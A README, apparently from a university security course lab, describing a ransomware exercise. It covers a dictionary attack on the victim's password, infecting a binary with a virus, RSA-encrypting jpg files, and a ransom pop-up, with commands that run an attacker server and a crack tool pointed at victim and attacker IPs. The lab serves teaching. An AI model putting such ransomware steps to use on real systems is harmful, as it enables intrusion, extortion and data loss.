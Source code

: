 # Ransomware Propagation and Payload

## Description
- Crack the victim's password by launching a dictionary attack (assume that the username is known as **csc2023**)
- Infect the file **/home/csc2023/cat** by embedding the compression virus
- Encrypt all picture files in **jpg** in **/home/csc2023/Pictures** via RSA
- Pop up a window showing a message requesting ransom

## Usage 
### Build
Perpare two machines, attacker and victim, and run the command in the attacker machine.
```bash
$ make
```
Prepare a file named **victim.dat** in the attacker machine that includes any combinations of characters which can be used as a password and place in **/home/csc2023/materials/**.

### Ransomware Progration and Payload
Set up the attacker machine via the command in attacker machine.
```bash
$ ./attacker_server <Attacker port>
```
Run the command in attacker machine to crack the victim's password and infect the file **/home/csc2023/cat**.
```bash
$ ./crack_attack <Victim IP> <Attacker IP> <Attacker Port>
```
Run **/home/csc2023/cat** file in victim machine and the result is shown below.
![error message](./figures/result.gif)

### Decryption
Decrypt all picture files in **jpg** in **/home/csc2023/Pictures** in victim machine.
```bash
$ ./decrypt.sh
```
